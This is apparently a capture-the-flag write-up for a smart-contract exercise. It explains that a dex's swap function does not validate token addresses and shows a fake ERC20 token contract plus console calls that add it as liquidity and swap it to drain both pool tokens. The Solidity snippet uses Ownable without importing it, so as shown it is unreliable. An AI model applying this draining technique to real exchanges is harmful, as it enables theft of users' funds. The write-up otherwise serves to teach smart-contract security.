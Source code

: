 this `swap` function doesn't check if `from` or `to` are the tokens of the dex so we can mint some other `token3`, add liquidity to the dex and then swap `token3` for `token1` and `token2`.

```
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract FrulaCoin is ERC20, Ownable {
    constructor() ERC20("FrulaCoin", "FRU") {
        _mint(msg.sender, 1000000 * 10 ** decimals());
    }
}
```

```
const token1 = await contract.token1();
const token2 = await contract.token2();
const token3 = '<contract address>';

await contract.add_liquidity(token3, 100);
await contract.swap(token3, token1, 100);
await contract.swap(token3, token2, 200);
```
